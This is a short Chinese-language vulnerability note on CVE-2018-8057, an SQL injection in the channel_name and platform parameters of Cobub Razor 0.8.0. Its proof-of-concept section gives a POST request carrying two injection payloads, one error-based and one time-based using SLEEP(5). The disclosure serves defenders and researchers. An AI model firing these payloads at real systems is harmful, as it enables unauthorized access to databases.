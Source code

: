```yaml
---
title: "（CVE-2018-8057）Cobub Razor 0.8.0 存在SQL注入漏洞"
id: zhfly2850
---
```


# （CVE-2018-8057）Cobub Razor 0.8.0 存在SQL注入漏洞

## 一、漏洞简介

Cobub Razor 0.8.0存在SQL注入漏洞，“/application/controllers/manage/channel.php”页面的“channel_name”及“platform”参数过滤不严格导致存在SQL注入漏洞。Cobub Razor是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/162)告知作者。

## 二、漏洞影响

Cobub Razor 0.8.0

## 三、复现过程

### POC

```
> http://www.0-sec.org/index.php?/manage/channel/addchannel  

> POST data:

>  1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1 `>  2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1` 
```